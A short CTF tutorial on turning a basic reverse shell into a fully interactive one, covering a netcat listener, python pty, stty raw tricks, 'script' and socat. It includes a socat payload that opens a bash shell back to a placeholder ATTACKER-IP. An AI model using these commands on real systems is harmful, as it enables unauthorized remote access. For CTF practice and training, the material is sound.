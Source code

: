 # Reverse Shell Upgrade
Welcome in this short yet very useful guide for CTFs challenges about improving our reverse shells.

Very often our way to gain a foot hold inside the machine involves creating some reverse-shell scripts, but there is a problem, the shell is very unstable and not interactive.

Since we want to have a good environment to do our investigations in the target machine we have to take some steps forward and make our shell a fully interactive one.

Here i will show some ways to achieve it, but first let's see how we commonly gain a shell in the first place:

<br/>
<br/>

## Gaining a Shell
For this demo i will focus specifically on web-apps but most things can be applied in other contexts too, re-arrange at your needs.

The most commonly used method to gain reverse-shell on the target system is usually by creating a short script depending on the services and infrastructure type of the target (example: the websiteis running a PHP backed, we make a PHP reverse shell...).

This is the first step, now we have to find a way to upload the reverse shell and prepare our listener to wait for the connection.

We will use *netcat* as it is a very common tool and installed on a huge portion of the systems:

```bash
nc -lvnp 1234
```
(you can choose another port if you want, just be sure to match it with the one you have in your payload and avoid ports used by other services)

Finally we can activate the connection by visiting the location where we uploaded our reverse-shell payload, either by navigating to it with the browser or using *curl*.

Now if everything was done right we should have a shell on the target system (usually a limited shell as an unprivileged user).

<br/>
<br/>

## Upgrading Methods
<br/>

### Python Pseudo Terminal
This is one of the quickest way, once we have our initial shell, we can firstly check if on the target system python is installed, if yes we can use this command to enable the execution of more commands:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

<br/>

### TTY Options
Now to the best option, this will make a fully interactive TTY:

We will start with the python psedudo terminal script on the shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Now we can press `CTRL+Z` to put the reverse-shell session in background.
In your machine terminal use:
```bash
stty raw -echo
```

Now we can bring back in foreground the rev-shell session using the commands `fg`.

You should now see the original reverse shell, might be with a broken graphic but no worries, enter the command:
```bash
reset
```

Finally we can set some ENV variables:
```bash
export SHELL=bash
export TERM=xterm-256color
stty rows VALUE columns VALUE  
```
(change the rows and columns VALUE depending on your current terminal measures)

With all this done right we should now have an interactive shell, where we can run commands like `clear` and even `CTRL+C` without accidentally terminating the session.

NOTE: I have encountered some problems using the zsh shell as my default, so here are some ideas on how to avoid them:
- The easiest way is to switch to a bash shell before making the listener and receiving the reverse-shell, otherwise you can:
- Use `rlwrap nc -lvnp` when setting up your listener;
- Avoid putting a space in your python pty command after the import;
- Type `stty size;stty raw -echo;fg` all on one line.

<br/>

### Script
A command for logging that can be turn into a tool to upgrade a shell! <br>
Sometimes Python is not available on the target so we might find this one useful in Linux environments.

Basically repeat the same passages as for the previous one with Python but instead of the first line we use this one:

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

<br/>

### Socat
Another way is to use *Socat*, a kind of newer and more powerful version of *netcat*, it s quite simple to do, the only catch is that most of the times it is not installed on the target systems, meaning we won't be able to use it.

On your machine set up the listener:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

This is the payload that has to be executed on the target(sobstitute with your IP):
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER-IP:1234
```

<br/>

This are some of the most commonly used methods, i encourage everyone to try them and why mot, also finding new ones specific for your challenge environment need. <br>
See you in the next guide/writeup, Happy hacking!
